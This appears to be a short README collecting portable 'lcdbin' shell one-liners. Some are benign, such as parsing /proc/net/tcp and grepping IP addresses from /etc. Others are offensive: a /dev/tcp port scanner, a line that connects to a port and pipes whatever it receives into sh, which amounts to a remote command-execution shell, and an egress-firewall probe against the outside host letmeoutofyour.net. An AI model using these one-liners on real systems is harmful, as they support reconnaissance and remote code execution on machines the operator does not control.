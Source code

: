 # lcdbins

An **lcdbin** is a lowest-common denominator binary; a platform-agnostic oneliner that should work on almost any UNIX environment.

Parse listening ports on /proc/net/tcp:

```shell
for i in $(awk -F "[ :]+" '{print $4}' /proc/net/tcp); do bc <<< "obase=10; ibase=16; $i"; done | sort -un
```

Get all IP addresses in /etc/:

```shell
grep -Ero '\b((25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)(\.|$)){4}\b' /etc/* 2>/dev/null
```

Scan TCP ports:

```shell
for i in {1..9000}; do SERVER="127.0.0.1"; PORT=$i; (echo  > /dev/tcp/$SERVER/$PORT) &> /dev/null && echo "Port $PORT seems to be open"; done
```

Connect to a port and execute the command received:

```shell
exec 3<>/dev/tcp/127.0.0.1/31337; cat <&3 | sh
```

Use letmeoutofyour.net to check firewall ACLs for a port:

```shell
exec 3<>/dev/tcp/letmeoutofyour.net/31337; echo -e "GET / HTTP/1.0\r\n\r\n" >&3; cat <&3 | grep w00tw00t
```
